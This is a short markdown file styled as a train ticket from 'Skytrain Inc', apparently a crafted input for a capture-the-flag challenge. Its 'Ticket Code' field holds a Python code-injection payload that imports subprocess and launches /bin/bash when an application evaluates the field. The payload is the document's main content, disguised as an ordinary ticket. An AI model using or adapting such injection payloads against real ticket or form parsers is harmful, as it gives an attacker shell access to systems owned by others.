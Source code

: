 # Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+- __import__('subprocess').run('/bin/bash', shell=True)**
##Issued: 2021/04/06
#End Ticket